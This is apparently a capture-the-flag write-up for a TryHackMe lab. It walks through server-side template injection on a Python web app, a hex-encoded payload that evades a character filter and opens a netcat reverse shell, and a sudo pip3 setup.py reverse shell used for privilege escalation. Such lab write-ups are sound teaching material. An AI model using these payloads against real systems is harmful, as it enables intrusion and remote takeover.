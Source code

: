 ```yaml
---
title: Vulnet Dotpy
layout: post
author: Bit Criminals Team
date: 2021-05-17 21:27:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotpy
---
```



As usual lets start with the nmap scan...


![](/images/D4rkDemian/dotpy1.png)


We got only one port i.e **8080** and gobuster was not working so using ffuf we found only three directories namely:

```
/login
/register
/logout
```

So we created an account and logged in into the website.


On enumerating we found that if we enter any wrong directory in the url we can see a 400 error page whose content was same eveytime except the input that we give in the url..


![](/images/D4rkDemian/dotpy3.png)


So we guessed it would be template injection and confirmed it by entering **{{7*7}}**.


So now we found an exploit command which will find the os library within the running machine and let us run our commands like **id** , **ls** etc..


```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}```

This worked and we got our output.


![](/images/D4rkDemian/dotpy6.png)


Now lets put our revershell also and listen to our local terminal using nc...

Now the exploit looks as follows 

```py
/%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen'
('rm\x20\x2Ftmp\x2Ff\x3Bmkfifo\x20\x2Ftmp\x2Ff\x3Bcat\x20\x2Ftmp\x2Ff\x7Cbash\x20\x2Di\x202\x3E\x261\x7Cnc\x2010\x2E8\x2E7\x2E41\x201337\x20\x3E\x2Ftmp\x2Ff')|attr('read')()%7D%7D
```

We replaced the percent sign with **\x** and . with **\x2E** as they were getting blocked by the website.

And so we got our shell 

Lets send socat to the shell to make it more stabilized..

After doing `sudo -l` we found that user web had the permission to run /usr/bin/pip3 as system-adm user .


So we created a setup.py file and placed the python reverse shell in it 


```py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.7.41",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /tmp/shell/setup.py
```


Now listen on your local machine and run the following command in the shell 

```sudo -u system-adm /usr/bin/pip3 install /tmp/shell```

And now we are system-adm 


